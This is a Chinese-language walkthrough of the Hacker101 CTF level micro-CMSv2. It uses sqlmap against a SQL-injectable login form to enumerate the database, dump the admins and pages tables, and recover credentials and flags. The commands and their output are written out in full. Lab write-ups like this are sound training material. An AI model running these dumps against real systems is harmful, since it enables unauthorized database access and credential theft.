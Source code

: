 ```yaml
---
title: hacker101-microCMSv2
date: 2019-07-03 22:02:22
tags: 
category: walkthrough
---
```

记录 hacker101 CTF

<!-- more -->

# 要点

简单的 sqlmap 执行

```shell
sqlmap -r micro-cms --random-agent -p username -current-db
sqlmap -r mico-cms --random-agent -p username -D level2 --tables
sqlmap -r mico-cms --random-agent -p username -D level2 -T admins --dump 
```



# walkthrough

micro-CMSv2 主要的漏洞是在登录的时候存在 SQL 注入。

1. 首先将 Burp 接受到的请求存起来

   ![micro-cms-v2](/postimg/microcmsv2-1.jpg)

2. 查询当前数据

```shell
sqlmap -r micro-cms --random-agent -p username -current-db
sqlmap -r mico-cms --random-agent -p username -D level2 --tables

# 结果
database: level2
[2 tables]
+--------+
| admins |
| pages  |
+--------+
```

3. 查询两个数据库表的内容

```
sqlmap -r mico-cms --random-agent -p username -D level2 -T admins --dump 

# 输出
Database: level2
Table: admins
[1 entry]
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | darci    | krystina |
+----+----------+----------+

sqlmap -r mico-cms --random-agent -p username -D level2 -T pages --dump 

# 输出
...
[10:01:06] [INFO] retrieved: 'Markdown Test'
[10:01:09] [INFO] retrieved: 'My secret is ^FLAG^a1<flag>5$FLAG$' # 找到第一个flag
[10:01:09] [INFO] retrieved: '3'
[10:01:10] [INFO] retrieved: '0'
[10:01:10] [INFO] retrieved: 'Private Page'

```

4. 使用用户名密码登录，找到第二个 flag
5. post  /page/edit/3 找到第三个 flag

